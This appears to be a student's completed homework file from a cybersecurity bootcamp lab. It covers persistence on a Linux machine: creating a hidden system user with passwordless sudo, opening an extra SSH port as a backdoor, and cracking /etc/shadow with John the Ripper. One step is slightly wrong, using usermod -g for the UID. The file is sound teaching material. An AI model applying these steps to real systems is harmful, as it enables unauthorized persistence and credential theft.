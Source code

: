 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -g 400 sysd`

4. Give your secret user the same GID:
  
  - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `sudo visudo`
   - Once the visudo file is open, pasted `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under root

6. Test that `sudo` access works without your password:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
 - Adding ports to the SSH for connection by editing the sshd_config
 `sudo nano /etc/ssh/sshd_config`
    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - switch to the root user with `sudo su` and then using John `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

